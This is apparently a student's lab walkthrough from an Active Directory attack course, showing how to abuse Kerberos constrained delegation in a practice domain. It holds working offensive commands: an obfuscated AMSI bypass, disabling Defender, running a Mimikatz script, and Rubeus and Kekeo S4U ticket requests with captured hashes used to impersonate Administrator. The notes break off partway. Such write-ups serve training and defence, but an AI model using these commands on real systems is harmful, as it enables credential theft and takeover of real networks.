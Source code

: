 # 👨‍✈️ Exploit Constrained Delegation and execute privileged operations

We are going to start bu enumerating users with constrained delegation ->

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We already have secrets of websvc from dcorp-admisrv machine.</p></figcaption></figure>

We can either use Kekeo or Rubeus to abuse that.

Let's start with rubeus -> First we need to encode "s4u" with Argsplit

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation" %}

Since i'm not very meticulous, i didn't note websvc's secrets so i need to do it again ->

```
PS C:\AD\Tools> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\AD\Tools> . .\PowerView.ps1
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student613\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
[dcorp-adminsrv]: PS C:\Users\student613\Documents> cd 'C:\Program Files\'
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7</p></figcaption></figure>

Now let's launch the Rubeus with s4u encoded:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

{% hint style="warning" %}
in the course there's an error on the server name that is dcorpmssql and not dcorp-mssql
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>just checking if it's all good</p></figcaption></figure>

And now we can access dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we're going to abuse Constrained Delegation using websvc with Kekeo

Let's  use the tgt::ask module from kekeo to request a TGT from websvc. Note that we are using NTLM hash of websvcs here just to show NTLM hash can be used too:

```
cd .\kekeo\x64
.\kekeo.exe 
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, let's use this TGT and request a TGS. Note that we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator ->

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can inject the ticket in current session to use it

(will finish kekeo later)

Now we're going to abuse Constrained Delegation using dcorp-adminsrv with Rubeus

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine
